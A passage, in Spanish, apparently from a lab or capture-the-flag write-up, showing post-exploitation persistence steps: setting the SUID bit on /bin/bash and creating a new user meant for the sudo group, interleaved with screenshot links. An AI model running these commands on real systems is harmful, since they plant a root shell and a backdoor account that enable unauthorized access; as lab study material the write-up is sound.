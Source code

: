     <img src="../img/Pasted_image_20241206220249.png" width="500">
</p>


#### Permisos SUID a la bash
```
chmod u+s /bin/bash
ls -la /bin/bash
```
<p align="center">
    <img src="../img/Pasted_image_20241206221348.png" width="500">
</p>



<h3><center>Persistencia</center></h3>

Empezaremos creando un usuario nuevo y luego lo añadiremos al grupo sudo. De cualquier forma también le otorgaremos permisos SUID a la bash.


#### Creamos usuario
```
useradd -m -s /bin/bash jonay
```
<p align="center">
    <img src="../img/Pasted_image_20241206220441.png" width="500">
</p>
